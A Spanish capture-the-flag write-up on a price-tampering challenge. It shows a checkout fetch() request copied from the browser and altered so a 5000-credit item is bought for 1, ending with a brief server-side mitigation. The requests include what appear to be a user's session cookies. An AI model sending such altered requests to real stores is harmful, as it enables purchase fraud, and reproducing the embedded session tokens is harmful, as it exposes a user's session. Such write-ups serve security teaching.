


# Client-Side Price Manipulation (Price Tampering)

## Como podemos observar en este reto no nos proporcionan usuario y contraseña, nos registramos usando unas credenciales inventadas:



## Más tarde vemos como es la plataforma y nos damos cuenta de que:

- Cada producto tiene marcado un precio concreto.
- Cada vez que se seleccione en 'Comprar' se bajará la cantidad de creditos disponible

# Por lo tanto este reto, no está diciendo entre lineas que hagamos esto:
- Revisar la peticiones que hace, para asegurarnos que se incluye el precio del producto en la petición.
- Y si es el punto anterior es correcto, modificar la petición usando un fetch o un curl, el método que preferamos pero tenemos que hacer un cambio mínimo.

### De esta petición(se proporciona todos los campos que el navegador nos da al copiar la petición desde la consola de desarrollador) usando el metodo fetch(que se puede usar en el mismo navegador):
``` js
fetch("https://f758fcae84fa7f5c.challenges.thehackerslabs.com/store/checkout", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "es-ES,es;q=0.9",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "priority": "u=0, i",
    "sec-ch-ua": "\"Not;A=Brand\";v=\"8\", \"Chromium\";v=\"150\", \"Google Chrome\";v=\"150\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1",
    "cookie": "_ga=GA1.1.1173682225.1783185054; _ga_1QFPBPMYC3=GS2.1.s1783438563$o1$g0$t1783438566$j57$l0$h0; _ga_5QESYJBE5T=GS2.1.s1785769756$o36$g0$t1785769759$j57$l0$h0; _ga_MFQ0S1V27Z=GS2.1.s1785769760$o70$g1$t1785769840$j43$l0$h0; thl_session=eyJ1c2VybmFtZSI6ICJkaGVyZWRpYXQiLCAiaWQiOiA0OTA3LCAiaGFja2VyX2xldmVsIjogIkN5YmVyIE5pbmphIiwgInNlc3Npb25fdmVyc2lvbiI6IDEsICJwcm9maWxlX2ltZyI6ICIvc3RhdGljL3VwbG9hZHMvdXNlcnMvYzIyMjU1YjYxNTU5YzAyOS5wbmcifQ==.anCvwQ.C6WnMwnpI_8-GlQjOPuz84a3ZZ4; session=eyJ1c2VyX2lkIjoyfQ.anCvxw.KOqcsB_ShaH5BjKlYI7GKlEvCkg",
    "Referer": "https://f758fcae84fa7f5c.challenges.thehackerslabs.com/store"
  },
  "body": "item_id=3&price=5000&quantity=1",
  "method": "POST"
});
```

### a esta otra petición:

```js
fetch("https://f758fcae84fa7f5c.challenges.thehackerslabs.com/store/checkout", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "es-ES,es;q=0.9",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "priority": "u=0, i",
    "sec-ch-ua": "\"Not;A=Brand\";v=\"8\", \"Chromium\";v=\"150\", \"Google Chrome\";v=\"150\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1",
    "cookie": "_ga=GA1.1.1173682225.1783185054; _ga_1QFPBPMYC3=GS2.1.s1783438563$o1$g0$t1783438566$j57$l0$h0; _ga_5QESYJBE5T=GS2.1.s1785769756$o36$g0$t1785769759$j57$l0$h0; _ga_MFQ0S1V27Z=GS2.1.s1785769760$o70$g1$t1785769840$j43$l0$h0; thl_session=eyJ1c2VybmFtZSI6ICJkaGVyZWRpYXQiLCAiaWQiOiA0OTA3LCAiaGFja2VyX2xldmVsIjogIkN5YmVyIE5pbmphIiwgInNlc3Npb25fdmVyc2lvbiI6IDEsICJwcm9maWxlX2ltZyI6ICIvc3RhdGljL3VwbG9hZHMvdXNlcnMvYzIyMjU1YjYxNTU5YzAyOS5wbmcifQ==.anCvwQ.C6WnMwnpI_8-GlQjOPuz84a3ZZ4; session=eyJ1c2VyX2lkIjoyfQ.anCvxw.KOqcsB_ShaH5BjKlYI7GKlEvCkg",
    "Referer": "https://f758fcae84fa7f5c.challenges.thehackerslabs.com/store"
  },
  "body": "item_id=3&price=1&quantity=1",
  "method": "POST"
});
```

# Si accedemos a la pantalla de VAULT, podemos ver la flag del reto y con esto...

# ¡Reto Completado con éxito!


### Una manera de securizar y mitigar esta vulnerabilidad, es llevar la lógica de descontar el precio de nuestra cuenta, sería llevarlo al servidor y si esta, que no quede reflejada de la parte del cliente, como en este caso, ya de por si debería saber que el producto1 vale x precio y el producto2 y precio.